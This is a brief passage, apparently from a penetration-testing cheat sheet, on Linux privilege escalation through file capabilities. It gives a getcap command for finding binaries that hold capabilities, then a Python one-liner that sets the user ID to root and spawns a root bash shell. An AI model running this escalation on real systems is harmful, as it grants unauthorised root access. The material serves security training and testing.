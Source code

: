 #### Detection
```bash - kali
getcap -r / 2>/dev/null
```

```bash - kali
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

